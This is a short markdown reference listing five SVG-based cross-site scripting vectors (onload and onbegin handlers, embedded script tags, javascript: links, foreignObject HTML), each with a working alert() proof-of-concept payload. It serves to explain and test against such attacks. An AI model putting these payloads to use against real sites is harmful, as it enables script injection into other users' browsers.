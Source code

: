 ## SVG-Based XSS Attack Vectors

### 1. Event Handler Execution

SVG elements support numerous event handlers that can execute JavaScript:

```svg
<svg onload="alert('XSS')"></svg>
```

This simple example will execute the JavaScript code when the SVG element loads.

### 2. Script Elements within SVG

SVG allows embedding `<script>` elements directly:

```svg
<svg>
  <script type="text/javascript">
    alert('XSS via SVG script element');
  </script>
</svg>
```

### 3. Animation-Based Execution

SVG animation elements can trigger JavaScript:

```svg
<svg>
  <animate onbegin="alert('XSS')" attributeName="x" dur="1s" />
  <set onbegin="alert('XSS')" attributeName="y" to="10" />
</svg>
```

### 4. SVG Links and References

Links within SVG can use JavaScript URIs:

```svg
<svg>
  <a xlink:href="javascript:alert('XSS')">
    <text x="20" y="20">Click me for XSS</text>
  </a>
</svg>
```

### 5. Embedded HTML via foreignObject

SVG's `<foreignObject>` element can include HTML content:

```svg
<svg>
  <foreignObject>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <script>alert('XSS via foreignObject')</script>
    </body>
  </foreignObject>
</svg>
```
